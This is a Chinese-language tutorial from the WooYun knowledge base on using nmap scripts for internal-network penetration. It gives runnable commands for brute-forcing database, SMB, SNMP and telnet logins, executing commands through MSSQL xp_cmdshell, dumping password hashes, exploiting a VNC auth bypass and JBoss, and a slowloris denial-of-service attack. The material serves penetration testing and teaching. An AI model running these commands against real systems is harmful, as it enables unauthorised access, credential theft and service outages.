# nmap 脚本使用总结

2014/06/08 11:24 | [clzzy](http://drops.wooyun.org/author/clzzy "由 clzzy 发布") | [工具收集](http://drops.wooyun.org/category/tools "查看 工具收集 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 前言：

* * *

nmap 的基本介绍和基本使用方法，在乌云知识库中已经有人提交过，讲的比较详细，在此文中就不再讲述。 具体链接：[`drops.wooyun.org/tips/2002`](http://drops.wooyun.org/tips/2002)

本文主要讲解 nmap 的众多脚本的使用，在内网渗透的时候尤其好用。

## 0x01 nmap 按脚本分类扫描

* * *

nmap 脚本主要分为以下几类，在扫描时可根据需要设置--script=类别这种方式进行比较笼统的扫描：

* * *

```
auth: 负责处理鉴权证书（绕开鉴权）的脚本  
broadcast: 在局域网内探查更多服务开启状况，如 dhcp/dns/sqlserver 等服务  
brute: 提供暴力破解方式，针对常见的应用如 http/snmp 等  
default: 使用-sC 或-A 选项扫描时候默认的脚本，提供基本脚本扫描能力  
discovery: 对网络进行更多的信息，如 SMB 枚举、SNMP 查询等  
dos: 用于进行拒绝服务攻击  
exploit: 利用已知的漏洞入侵系统  
external: 利用第三方的数据库或资源，例如进行 whois 解析  
fuzzer: 模糊测试的脚本，发送异常的包到目标机，探测出潜在漏洞 intrusive: 入侵性的脚本，此类脚本可能引发对方的 IDS/IPS 的记录或屏蔽  
malware: 探测目标机是否感染了病毒、开启了后门等信息  
safe: 此类与 intrusive 相反，属于安全性脚本  
version: 负责增强服务与版本扫描（Version Detection）功能的脚本  
vuln: 负责检查目标机是否有常见的漏洞（Vulnerability），如是否有 MS08_067 
```

部分使用截图：

（1） `nmap --script=auth 192.168.137.*`

负责处理鉴权证书（绕开鉴权）的脚本,也可以作为检测部分应用弱口令





（2）`nmap --script=brute 192.168.137.*`

提供暴力破解的方式  可对数据库，smb，snmp 等进行简单密码的暴力猜解



（3）`nmap --script=default 192.168.137.*` 或者 `nmap -sC 192.168.137.*`

默认的脚本扫描，主要是搜集各种应用服务的信息，收集到后，可再针对具体服务进行攻击





（4）`nmap --script=vuln 192.168.137.*`    

检查是否存在常见漏洞







（5）`nmap -n -p445 --script=broadcast 192.168.137.4`

在局域网内探查更多服务开启状况



（6）`nmap --script external 202.103.243.110` 

利用第三方的数据库或资源，例如进行 whois 解析


## 0x02 nmap 按应用服务扫描

* * *

（1）vnc 扫描：

检查 vnc bypass

```
nmap  --script=realvnc-auth-bypass 192.168.137.4  

```





检查 vnc 认证方式

```
nmap  --script=vnc-auth  192.168.137.4  

```

获取 vnc 信息

```
nmap  --script=vnc-info  192.168.137.4  

```

（2）smb 扫描：

smb 破解

```
nmap  --script=smb-brute.nse 192.168.137.4  

```

smb 字典破解

```
nmap --script=smb-brute.nse --script-args=userdb=/var/passwd,passdb=/var/passwd 192.168.137.4  

```



smb 已知几个严重漏

```
nmap  --script=smb-check-vulns.nse --script-args=unsafe=1 192.168.137.4    

```



查看共享目录  

```
nmap -p 445  --script smb-ls --script-args ‘share=e$,path=\,smbuser=test,smbpass=test’ 192.168.137.4    

```

查询主机一些敏感信息（注：需要下载 nmap_service）

```
nmap -p 445 -n –script=smb-psexec --script-args= smbuser=test,smbpass=test 192.168.137.4   

```



查看会话

```
nmap -n -p445 --script=smb-enum-sessions.nse --script-args=smbuser=test,smbpass=test 192.168.137.4    

```

系统信息

```
nmap -n -p445 --script=smb-os-discovery.nse --script-args=smbuser=test,smbpass=test 192.168.137.4  

```

（3）Mssql 扫描：

猜解 mssql 用户名和密码

```
nmap -p1433 --script=ms-sql-brute --script-args=userdb=/var/passwd,passdb=/var/passwd 192.168.137.4    

```



xp_cmdshell 执行命令 

```
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=sa,ms-sql-xp-cmdshell.cmd="net user" 192.168.137.4       

```



dumphash 值

```
nmap -p 1433 --script ms-sql-dump-hashes.nse --script-args mssql.username=sa,mssql.password=sa  192.168.137.4      

```



（4）Mysql 扫描：

扫描 root 空口令

```
nmap -p3306 --script=mysql-empty-password.nse 192.168.137.4   

```



列出所有 mysql 用户

```
nmap -p3306 --script=mysql-users.nse --script-args=mysqluser=root 192.168.137.4   

```

支持同一应用的所有脚本扫描

```
nmap --script=mysql-* 192.168.137.4  

```



（5）Oracle 扫描：

oracle sid 扫描

```
nmap --script=oracle-sid-brute -p 1521-1560 192.168.137.5   

```



oracle 弱口令破解

```
nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=ORCL,userdb=/var/passwd,passdb=/var/passwd 192.168.137.5      

```



（6）其他一些比较好用的脚本

```
nmap --script=broadcast-netbios-master-browser 192.168.137.4   发现网关  
nmap -p 873 --script rsync-brute --script-args 'rsync-brute.module=www' 192.168.137.4  破解 rsync  
nmap --script informix-brute -p 9088 192.168.137.4    informix 数据库破解  
nmap -p 5432 --script pgsql-brute 192.168.137.4       pgsql 破解  
nmap -sU --script snmp-brute 192.168.137.4            snmp 破解  
nmap -sV --script=telnet-brute 192.168.137.4          telnet 破解  
nmap --script=http-vuln-cve2010-0738 --script-args 'http-vuln-cve2010-0738.paths={/path1/,/path2/}' <target>  jboss autopwn  
nmap --script=http-methods.nse 192.168.137.4 检查 http 方法  
nmap --script http-slowloris --max-parallelism 400 192.168.137.4  dos 攻击，对于处理能力较小的站点还挺好用的 'half-HTTP' connections   
nmap --script=samba-vuln-cve-2012-1182  -p 139 192.168.137.4 
```

（7）不靠谱的脚本：

vnc-brute    次数多了会禁止连接

pcanywhere-brute   同上



## 0x03  学会脚本分析

* * *

nmap 中脚本并不难看懂，所以在使用时如果不知道原理可以直接看利用脚本即可，也可以修改其中的某些参数方便自己使用。

举例：

关于 oracle 的弱口令破解：

调用过程：oracle-brute.nse >> oracle-default-accounts.lst

首先是调用破解脚本：



根据脚本中字典的位置去查看默认字典，当然也可以将破解的字符自行添加其中，或者是修改脚本或参数改变破解字典：



版权声明：未经授权禁止转载 [clzzy](http://drops.wooyun.org/author/clzzy "由 clzzy 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [InsightScan:Python 多线程 Ping/端口扫描 + HTTP 服务/APP 探测，可生成 Hydra 用的 IP 列表](http://drops.wooyun.org/tools/427)
*   [从内存中窃取未加密的 SSH-agent 密钥](http://drops.wooyun.org/tips/2719)
*   [Short XSS](http://drops.wooyun.org/papers/512)
*   [Cobalt Strike 之团队服务器的搭建与 DNS 通讯演示](http://drops.wooyun.org/tools/1475)
*   [metasploit 渗透测试笔记(meterpreter 篇)](http://drops.wooyun.org/tips/2227)
*   [charles 使用教程指南](http://drops.wooyun.org/tips/2423)